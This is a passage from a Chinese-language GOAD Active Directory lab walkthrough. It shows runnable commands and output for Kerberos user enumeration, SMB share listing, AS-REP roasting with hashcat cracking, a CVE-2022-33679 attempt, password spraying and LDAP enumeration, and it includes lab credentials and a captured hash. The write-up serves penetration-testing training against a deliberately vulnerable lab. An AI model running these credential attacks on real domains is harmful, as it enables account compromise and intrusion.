jaqen.h’ghar
grey.worm
grey.worm
beric.dondarrion
beric.dondarrion
missandei
missandei
mance.rayder
mance.rayder
tormund
tormund
ramsay.snow
ramsay.snow
olenna.tyrell
olenna.tyrell
thoros.of
thoros.of
orell
orell
qyburn
qyburn
brynden.tully
brynden.tully
tommen.baratheon
tommen.baratheon
daario.naharis
daario.naharis
oberyn.martell
oberyn.martell
myrcella.baratheon
myrcella.baratheon
obara.sand
obara.sand
nym.sand
nym.sand
tyene.sand
tyene.sand
high.sparrow
high.sparrow
trystane.martell
trystane.martell
doran.martell
doran.martell
euron.greyjoy
euron.greyjoy
lady.crane
lady.crane
high.priestess
high.priestess
randyll.tarly
randyll.tarly
izembaro
izembaro
brother.ray
brother.ray
archmaester.ebrose
archmaester.ebrose
```

使用nmap爆破sevenkingdoms.local

```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='sevenkingdoms.local',userdb=got_users.txt" 192.168.56.10
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-04 08:54 EDT
Nmap scan report for sevenkingdoms.local (192.168.56.10)
Host is up (0.0016s latency).

PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users:
| Discovered Kerberos principals
|     robert.baratheon@sevenkingdoms.local
|     joffrey.baratheon@sevenkingdoms.local
|     cersei.lannister@sevenkingdoms.local
|     joffrey.baratheon@sevenkingdoms.local
|     renly.baratheon@sevenkingdoms.local
|     stannis.baratheon@sevenkingdoms.local
|     cersei.lannister@sevenkingdoms.local
|     tywin.lannister@sevenkingdoms.local
|     renly.baratheon@sevenkingdoms.local
|     jaime.lannister@sevenkingdoms.local
|     tywin.lannister@sevenkingdoms.local
|     jaime.lannister@sevenkingdoms.local
|     stannis.baratheon@sevenkingdoms.local
|_    robert.baratheon@sevenkingdoms.local

Nmap done: 1 IP address (1 host up) scanned in 0.60 seconds
```

使用nmap爆破essos.local

```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='essos.local',userdb=got_users.txt" 192.168.56.12 -Pn
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-04 09:20 EDT
Nmap scan report for essos.local (192.168.56.12)
Host is up (0.0021s latency).

PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users:
| Discovered Kerberos principals
|     daenerys.targaryen@essos.local
|     viserys.targaryen@essos.local
|     jorah.mormont@essos.local
|     jorah.mormont@essos.local
|     viserys.targaryen@essos.local
|     khal.drogo@essos.local
|     daenerys.targaryen@essos.local
|_    khal.drogo@essos.local

Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
```

使用nmap爆破north.sevenkingdoms.local

```bash
 nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='north.sevenkingdoms.local',userdb=got_users.txt" 192.168.56.11 -Pn
 ```

 ```bash
 Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-04 09:22 EDT
Nmap scan report for winterfell.north.sevenkingdoms.local (192.168.56.11)
Host is up (0.0028s latency).

PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users:
| Discovered Kerberos principals
|     rickon.stark@north.sevenkingdoms.local
|     robb.stark@north.sevenkingdoms.local
|     samwell.tarly@north.sevenkingdoms.local
|     jeor.mormont@north.sevenkingdoms.local
|     catelyn.stark@north.sevenkingdoms.local
|     arya.stark@north.sevenkingdoms.local
|     robb.stark@north.sevenkingdoms.local
|     hodor@north.sevenkingdoms.local
|     sansa.stark@north.sevenkingdoms.local
|     arya.stark@north.sevenkingdoms.local
|     catelyn.stark@north.sevenkingdoms.local
|     jon.snow@north.sevenkingdoms.local
|     hodor@north.sevenkingdoms.local
|     samwell.tarly@north.sevenkingdoms.local
|     jon.snow@north.sevenkingdoms.local
|     rickon.stark@north.sevenkingdoms.local
|     jeor.mormont@north.sevenkingdoms.local
|_    sansa.stark@north.sevenkingdoms.local
```

Script krb5-enum-users摘要:

> 通过强制查询可能的用户名对Kerberos服务进行验证来发现有效的用户名

> 当请求无效的用户名时，服务器将使用Kerberos错误代码KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN响应，从而使我们确定用户名无效

> 有效的用户名将引起AS-REP响应中的TGT或错误KRB5KDC_ERR_PREAUTH_REQUIRED，表示需要用户执行预身份验证

当爆破用户时，badpwdcount值不会增加

用CME工具PoC:

```bash
 crackmapexec smb -u khal.drogo -p horse -d essos.local 192.168.56.12 --users
```

```bash
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         192.168.56.12   445    MEEREEN          [+] essos.local\khal.drogo:horse
SMB         192.168.56.12   445    MEEREEN          [+] Enumerated domain user(s)
SMB         192.168.56.12   445    MEEREEN          essos.local\sql_svc                        badpwdcount: 0 desc: sql service
SMB         192.168.56.12   445    MEEREEN          essos.local\jorah.mormont                  badpwdcount: 0 desc: Jorah Mormont
SMB         192.168.56.12   445    MEEREEN          essos.local\khal.drogo                     badpwdcount: 0 desc: Khal Drogo
SMB         192.168.56.12   445    MEEREEN          essos.local\viserys.targaryen              badpwdcount: 0 desc: Viserys Targaryen
SMB         192.168.56.12   445    MEEREEN          essos.local\daenerys.targaryen             badpwdcount: 0 desc: Darnerys Targaryen
SMB         192.168.56.12   445    MEEREEN          essos.local\krbtgt                         badpwdcount: 0 desc: Key Distribution Center Service Account
SMB         192.168.56.12   445    MEEREEN          essos.local\vagrant                        badpwdcount: 0 desc: Vagrant User
SMB         192.168.56.12   445    MEEREEN          essos.local\DefaultAccount                 badpwdcount: 0 desc: A user account managed by the system.
SMB         192.168.56.12   445    MEEREEN          essos.local\Guest                          badpwdcount: 0 desc: Built-in account for guest access to the computer/domain
SMB         192.168.56.12   445    MEEREEN          essos.local\Administrator                  badpwdcount: 0 desc: Built-in account for administering the computer/domain
```

### 列出共享的Guest权限

查看访客对smb共享的访问

使用CME

```bash
crackmapexec smb 192.168.56.10-23 -u 'a' -p '' --shares
```

```bash

SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         192.168.56.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
SMB         192.168.56.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.10   445    KINGSLANDING     [-] sevenkingdoms.local\a: STATUS_LOGON_FAILURE
SMB         192.168.56.12   445    MEEREEN          [-] essos.local\a: STATUS_LOGON_FAILURE
SMB         192.168.56.23   445    BRAAVOS          [+] essos.local\a:
SMB         192.168.56.23   445    BRAAVOS          [+] Enumerated shares
SMB         192.168.56.23   445    BRAAVOS          Share           Permissions     Remark
SMB         192.168.56.23   445    BRAAVOS          -----           -----------     ------
SMB         192.168.56.23   445    BRAAVOS          ADMIN$                          Remote Admin
SMB         192.168.56.23   445    BRAAVOS          all             READ,WRITE      Basic RW share for all
SMB         192.168.56.23   445    BRAAVOS          C$                              Default share
SMB         192.168.56.22   445    CASTELBLACK      [+] north.sevenkingdoms.local\a:
SMB         192.168.56.23   445    BRAAVOS          CertEnroll                      Active Directory Certificate Services share
SMB         192.168.56.23   445    BRAAVOS          IPC$                            Remote IPC
SMB         192.168.56.23   445    BRAAVOS          public                          Basic Read share for all domain users
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\a: STATUS_LOGON_FAILURE
SMB         192.168.56.22   445    CASTELBLACK      [+] Enumerated shares
SMB         192.168.56.22   445    CASTELBLACK      Share           Permissions     Remark
SMB         192.168.56.22   445    CASTELBLACK      -----           -----------     ------
SMB         192.168.56.22   445    CASTELBLACK      ADMIN$                          Remote Admin
SMB         192.168.56.22   445    CASTELBLACK      all             READ,WRITE      Basic RW share for all
SMB         192.168.56.22   445    CASTELBLACK      C$                              Default share
SMB         192.168.56.22   445    CASTELBLACK      IPC$            READ            Remote IPC
SMB         192.168.56.22   445    CASTELBLACK      public                          Basic Read share for all domain users
```

### 获得用户密码

知道用户名,获取密码,两种方式:

- AS-REP Roast

- Password spray密码喷洒

#### AS-REP Roast

[AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
> AS-REP烤饼(AS-REP roasting)是一种技术，可以获取选择了**不需要Kerberos预身份验证标志**的用户的密码哈希值

> 禁用预授权是一种危险的错误配置，攻击者可以简单地查询 KDC 以查找禁用预身份验证的用户，然后为每个用户请求 TGT，然后 TGT 可以从内存中转储并在暴力密码破解攻击中脱机使用，如果密码被破解，则攻击者将拥有域用户的有密码铭文

根据之前结果制作[字典](https://github.com/N1etzsche0/GOAD/blob/main/GOAD-Part3-Find-User/workspace/north.sevenkingdoms.local-users.txt)

```bash
impacket-GetNPUsers north.sevenkingdoms.local/ -no-pass -usersfile north.sevenkingdoms.local-users.txt
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User sql_svc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jeor.mormont doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User samwell.tarly doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jon.snow doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User hodor doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User rickon.stark doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$brandon.stark@NORTH.SEVENKINGDOMS.LOCAL:30a743660db54d8c4207ddead8d482d5$639bf91110289d44bf8e5bc52610fb3b143df403804d2a2e569bc8ed306b3cb239b37124655cd3849ba2b76afe8bacb99410795d71b69ac7dfd04878f0b5418cb5cbd6331cb9aef0001183e2b6c3bc79523642632fdeb2ae5e6bda416b700869a2e7304c6db791808b9db7c69c9718c7f863851229ecf788d7996e0ee64a07b7c05af310a4d6653069262200723927e20a963b5c2fb545ff4f8e69e021d75790d0916be457a8aff298f7a0dc4410bf408ab0bcec67b12dafda8fd1563162e01bd91e3e011cbdd68d6aa6241e2699d607ce3e4c11830f8f8edbfc358fe8fb7fa47715c377a555fa96d3d0baf3d2aad9418b13a650671caa8aa2ba2bc7e91e8411c83849814a9c
[-] User sansa.stark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robb.stark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User catelyn.stark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User eddard.stark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User arya.stark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User vagrant doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

GetNPUsers摘要:
> 这个脚本会尝试获得并列出不需要Kerberos域认证(UF_DONT_REQUIRE_PREAUTH)的用户，输出和JtR兼容,

hashcat破解[brandon.stark.hash](https://github.com/N1etzsche0/GOAD/blob/main/GOAD-Part3-Find-User/workspace/brandon.stark.hash)

```bash
hashcat -a 0 -m 18200 brandon.stark.hash /usr/share/wordlists/rockyou.txt
```

现在已经知道的域的用户和密码:

- samwell.tarly:Heartsbane(用户描述)
- brandon.stark:iseedeadpeople(AS-REP Roasting)

#### CVE-2022-33679

该攻击针对已禁用预身份验证的 Windows 域帐户，并尝试进行加密降级攻击,适用范围使用禁用预身份验证和 RC4-MD4 加密方案

发布到 Github的 [PoC](https://github.com/Bdenneu/CVE-2022-33679)

```bash
python3 CVE-2022-33679.py north.sevenkingdoms.local/brandon.stark 192.168.56.11
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT - Retrieving AS-REP
[-]  RC4 is not supported
```

没成功

#### Password Spray密码喷洒

> 密码喷洒属于密码猜测的一种，通常以少量候选密码尝试多个用户；它不能保证避免账户锁定，仍需结合密码策略和已有失败次数判断。

使用CME

```bash
 crackmapexec smb 192.168.56.11 -u north.sevenkingdoms.local-users.txt -p north.sevenkingdoms.local-users.txt --no-bruteforce --continue-on-succes
 ```

 ```bash
 SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\sql_svc:sql_svc STATUS_LOGON_FAILURE
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\jeor.mormont:jeor.mormont STATUS_LOGON_FAILURE
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\samwell.tarly:samwell.tarly STATUS_LOGON_FAILURE
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\jon.snow:jon.snow STATUS_LOGON_FAILURE
SMB         192.168.56.11   445    WINTERFELL       [+] north.sevenkingdoms.local\hodor:hodor
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\rickon.stark:rickon.stark STATUS_LOGON_FAILURE
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\brandon.stark:brandon.stark STATUS_LOGON_FAILURE
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\sansa.stark:sansa.stark STATUS_LOGON_FAILURE
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\robb.stark:robb.stark STATUS_LOGON_FAILURE
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\catelyn.stark:catelyn.stark STATUS_LOGON_FAILURE
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\eddard.stark:eddard.stark STATUS_LOGON_FAILURE
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\arya.stark:arya.stark STATUS_LOGON_FAILURE
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\krbtgt:krbtgt STATUS_LOGON_FAILURE
SMB         192.168.56.11   445    WINTERFELL       [+] north.sevenkingdoms.local\vagrant:vagrant (Pwn3d!)
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\Guest:Guest STATUS_LOGON_FAILURE
SMB         192.168.56.11   445    WINTERFELL       [-] north.sevenkingdoms.local\Administrator:Administrator STATUS_LOGON_FAILURE
```

我们可以用有效用户尝试 sprayhound 以避免锁定帐户

选项-t设置是剩余尝试次数,如果设置为2，并且密码策略在 5 次登录失败后锁定帐户，则sprayhound将不会测试badpwdcount为3(及更多)的用户

```bash
# User as pass with password lowercase

sprayhound -U north.sevenkingdoms.local-users.txt -d north.sevenkingdoms.local -dc 192.168.56.11 -lu hodor -lp hodor --lower -t 2
```

```bash
[+] Login successful
[+] Successfully retrieved password policy (Threshold: 5)
[+] Successfully retrieved 16 users
[+] 4 users will be tested
[+] 12 users will not be tested
    Continue? [Y/n] Y
    Continue? [Y/n] y
[+] [  VALID  ] vagrant : vagrant
[+] [  VALID  ] hodor : hodor
[+] 2 user(s) have been owned !
    Do you want to set them as 'owned' in Bloodhound ? [Y/n] n
[!] Ok, master. Bye.
```

用CME查看下锁定次数

```bash
crackmapexec smb -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local 192.168.56.11 --users
```

```bash
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.11   445    WINTERFELL       [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane
SMB         192.168.56.11   445    WINTERFELL       [+] Enumerated domain user(s)
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\sql_svc                        badpwdcount: 3 desc: sql service
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\jeor.mormont                   badpwdcount: 3 desc: Jeor Mormont
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\samwell.tarly                  badpwdcount: 3 desc: Samwell Tarly (Password : Heartsbane)
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\jon.snow                       badpwdcount: 3 desc: Jon Snow
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\hodor                          badpwdcount: 0 desc: Brainless Giant
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\rickon.stark                   badpwdcount: 3 desc: Rickon Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\brandon.stark                  badpwdcount: 3 desc: Brandon Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\sansa.stark                    badpwdcount: 3 desc: Sansa Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\robb.stark                     badpwdcount: 0 desc: Robb Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\catelyn.stark                  badpwdcount: 3 desc: Catelyn Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\eddard.stark                   badpwdcount: 1 desc: Eddard Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\arya.stark                     badpwdcount: 3 desc: Arya Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\krbtgt                         badpwdcount: 3 desc: Key Distribution Center Service Account
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\vagrant                        badpwdcount: 0 desc: Vagrant User
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\Guest                          badpwdcount: 3 desc: Built-in account for guest access to the computer/domain
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\Administrator                  badpwdcount: 3 desc: Built-in account for administering the computer/domain
```

现在获得了三对凭据：

- north.sevenkingdoms.local\samwell.tarly:Heartsbane(用户描述)
- north.sevenkingdoms.local\brandon.stark:iseedeadpeople(AS-REP Roasting)
- north.sevenkingdoms.local\hodor:hodor(密码喷洒)
- ~~vagrant:vagrant(密码喷洒)~~

## 五、用户与域环境枚举

### 列出用户

- 当您在活动目录上获得一个帐户时，要做的第一件事总是**获得完整的用户列表**
- 一旦你得到它，你就可以在完整的用户列表上进行密码喷洒(你经常会发现其他帐户的密码很弱，比如 username=password、SeasonYear!、SocietynameYear! 甚至 123456)

```bash
impacket-GetADUsers -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```

```bash
impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Querying north.sevenkingdoms.local for information about domain.
Name                  Email                           PasswordLastSet      LastLogon
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2023-05-31 01:24:31.039750  2023-05-31 05:57:19.443577
Guest                                                 <never>              <never>
vagrant                                               2021-05-12 07:38:55.922520  2023-05-31 06:22:46.154533
krbtgt                                                2023-05-31 02:09:14.783719  <never>
2023-05-31 02:19:15.062141  <never>
arya.stark                                            2023-05-31 05:43:29.046383  2023-06-02 05:09:00.415651
eddard.stark                                          2023-05-31 05:43:35.293315  2023-06-05 09:52:09.638037
catelyn.stark                                         2023-05-31 05:43:41.067220  <never>
robb.stark                                            2023-05-31 05:43:46.748632  2023-06-05 09:52:42.283337
sansa.stark                                           2023-05-31 05:43:52.494612  <never>
brandon.stark                                         2023-05-31 05:43:58.041093  2023-06-04 09:56:34.712310
rickon.stark                                          2023-05-31 05:44:04.184710  <never>
hodor                                                 2023-05-31 05:44:09.894722  <never>
jon.snow                                              2023-05-31 05:44:15.433758  <never>
samwell.tarly                                         2023-05-31 05:44:20.807653  <never>
jeor.mormont                                          2023-05-31 05:44:25.852727  <never>
sql_svc                                               2023-05-31 05:44:31.405820  2023-06-01 20:36:30.667229
```

使用CME

```bash
crackmapexec smb -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local 192.168.56.11 --users
```

```bash
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.11   445    WINTERFELL       [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane
SMB         192.168.56.11   445    WINTERFELL       [+] Enumerated domain user(s)
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\sql_svc                        badpwdcount: 3 desc: sql service
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\jeor.mormont                   badpwdcount: 3 desc: Jeor Mormont
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\samwell.tarly                  badpwdcount: 3 desc: Samwell Tarly (Password : Heartsbane)
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\jon.snow                       badpwdcount: 3 desc: Jon Snow
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\hodor                          badpwdcount: 0 desc: Brainless Giant
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\rickon.stark                   badpwdcount: 3 desc: Rickon Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\brandon.stark                  badpwdcount: 3 desc: Brandon Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\sansa.stark                    badpwdcount: 3 desc: Sansa Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\robb.stark                     badpwdcount: 0 desc: Robb Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\catelyn.stark                  badpwdcount: 3 desc: Catelyn Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\eddard.stark                   badpwdcount: 0 desc: Eddard Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\arya.stark                     badpwdcount: 3 desc: Arya Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\krbtgt                         badpwdcount: 3 desc: Key Distribution Center Service Account
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\vagrant                        badpwdcount: 0 desc: Vagrant User
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\Guest                          badpwdcount: 3 desc: Built-in account for guest access to the computer/domain
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\Administrator                  badpwdcount: 3 desc: Built-in account for administering the computer/domain
```

使用LDAP
[Useful LDAP queries for Windows Active Directory pentesting](https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/)

```bash
ldapsearch -H ldap://192.168.56.11 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=north,DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))" |grep 'distinguishedName:'
```

```bash
distinguishedName: CN=Administrator,CN=Users,DC=north,DC=sevenkingdoms,DC=loca
distinguishedName: CN=Guest,CN=Users,DC=north,DC=sevenkingdoms,DC=local
distinguishedName: CN=vagrant,CN=Users,DC=north,DC=sevenkingdoms,DC=local
distinguishedName: CN=krbtgt,CN=Users,DC=north,DC=sevenkingdoms,DC=local
distinguishedName: CN=SEVENKINGDOMS$,CN=Users,DC=north,DC=sevenkingdoms,DC=loc
distinguishedName: CN=arya.stark,CN=Users,DC=north,DC=sevenkingdoms,DC=local
distinguishedName: CN=eddard.stark,CN=Users,DC=north,DC=sevenkingdoms,DC=local
distinguishedName: CN=catelyn.stark,CN=Users,DC=north,DC=sevenkingdoms,DC=loca
distinguishedName: CN=robb.stark,CN=Users,DC=north,DC=sevenkingdoms,DC=local
distinguishedName: CN=sansa.stark,CN=Users,DC=north,DC=sevenkingdoms,DC=local
distinguishedName: CN=brandon.stark,CN=Users,DC=north,DC=sevenkingdoms,DC=loca
distinguishedName: CN=rickon.stark,CN=Users,DC=north,DC=sevenkingdoms,DC=local
distinguishedName: CN=hodor,CN=Users,DC=north,DC=sevenkingdoms,DC=local
distinguishedName: CN=jon.snow,CN=Users,DC=north,DC=sevenkingdoms,DC=local
distinguishedName: CN=samwell.tarly,CN=Users,DC=north,DC=sevenkingdoms,DC=loca
distinguishedName: CN=jeor.mormont,CN=Users,DC=north,DC=sevenkingdoms,DC=local
distinguishedName: CN=sql_svc,CN=Users,DC=north,DC=sevenkingdoms,DC=local
```

而且由于域信任的关系 我们可以使用ldap查询其他域内的用户

```bash
ldapsearch -H ldap://192.168.56.12 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b ',DC=essos,DC=local' "(&(objectCategory=person)(objectClass=user))"
```

```bash
ldap_bind: Invalid credentials (49)
 additional info: 80090308: LdapErr: DSID-0C09042A, comment: AcceptSecurityContext error, data 52e, v3839
```

```bash
ldapsearch -H ldap://192.168.56.10 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))" |grep 'distinguishedName:'
```

```bash
distinguishedName: CN=Administrator,CN=Users,DC=sevenkingdoms,DC=local
distinguishedName: CN=Guest,CN=Users,DC=sevenkingdoms,DC=local
distinguishedName: CN=vagrant,CN=Users,DC=sevenkingdoms,DC=local
distinguishedName: CN=krbtgt,CN=Users,DC=sevenkingdoms,DC=local
distinguishedName: CN=NORTH$,CN=Users,DC=sevenkingdoms,DC=local
distinguishedName: CN=ESSOS$,CN=Users,DC=sevenkingdoms,DC=local
distinguishedName: CN=tywin.lannister,OU=Crownlands,DC=sevenkingdoms,DC=local
distinguishedName: CN=jaime.lannister,OU=Crownlands,DC=sevenkingdoms,DC=local
distinguishedName: CN=cersei.lannister,OU=Crownlands,DC=sevenkingdoms,DC=local
distinguishedName: CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local
distinguishedName: CN=robert.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local
distinguishedName: CN=joffrey.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=loca
distinguishedName: CN=renly.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local
distinguishedName: CN=stannis.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=loca
distinguishedName: CN=petyer.baelish,OU=Crownlands,DC=sevenkingdoms,DC=local
distinguishedName: CN=lord.varys,OU=Crownlands,DC=sevenkingdoms,DC=local
distinguishedName: CN=maester.pycelle,OU=Crownlands,DC=sevenkingdoms,DC=local
```

### Kerberoasting

#### Kerberos协议

[Kerberos协议概述](https://y4er.com/posts/kerberos-as_req-and-as_rep/):
> Kerberos是一种由MIT(麻省理工大学)提出的一种网络身份验证协议

> 它旨在通过使用密钥加密技术为客户端/服务器应用程序提供强身份验证

> 在Kerberos协议中主要是有三个角色的存在:

>
> 1. 访问服务的Client(以下表述为Client 或者用户)
> 2. 提供服务的Server(以下表述为服务)
> 3. KDC(Key Distribution Center)密钥分发中心 kerberos 测试工具介绍

> 其中KDC服务默认会安装在一个域的域控中，而Client和Server为域内的用户或者是服务，如HTTP服务，SQL服务在Kerberos中Client是否有权限访问Server端的服务由KDC发放的票据来决定

kerberos的简化认证认证过程如下图



1. AS_REQ: Client向KDC发起AS_REQ,请求凭据是Client hash加密的时间戳
2. AS_REP: KDC使用Client hash进行解密，如果结果正确就返回用krbtgt hash加密的TGT票据，TGT里面包含PAC,PAC包含Client的sid，Client所在的组
3. TGS_REQ: Client凭借TGT票据向KDC发起针对特定服务的TGS_REQ请求
4. TGS_REP: KDC使用krbtgt hash进行解密，如果结果正确，就返回用服务hash 加密的TGS票据(这一步不管用户有没有访问服务的权限，只要TGT正确，就返回TGS票据)
5. AP_REQ: Client拿着TGS票据去请求服务
6. AP_REP: 服务使用自己的hash解密TGS票据如果解密正确，就拿着PAC去KDC那边问Client有没有访问权限，域控解密PAC获取Client的sid，以及所在的组，再根据该服务的ACL，判断Client是否有访问服务的权限

#### SPN简介

SPN简介:
> SPN(ServicePrincipal Names)服务主体名称，是服务实例(比如:HTTP、MSSQL、MySQL等服务)的唯一标识符
> SPN是服务器上所运行服务的唯一标识，每个使用Kerberos的服务都需要一个SPN
>
> SPN分为两种，一种注册在AD上机器帐户(Computers)下，另一种注册在域用户帐户(Users)下
>
> 当一个服务的权限为Local System或Network Service，则SPN注册在机器帐户(Computers)下
>
> 当一个服务的权限为一个域用户，则SPN注册在域用户帐户(Users)下

SPN的格式:

```bash
serviceclass/host:port/servicename
```

1. serviceclass可以理解为服务的名称，常见的有www, ldap, SMTP, DNS, HOST等
2. host有两种形式，FQDN和NetBIOS名，例如server01.test.com和server01
3. 如果服务运行在默认端口上，则端口号(port)可以省略

**kerberoasting:**
> 通过SPN发现服务(比如MSSQL)
>
> 具有域内普通用户权限
>
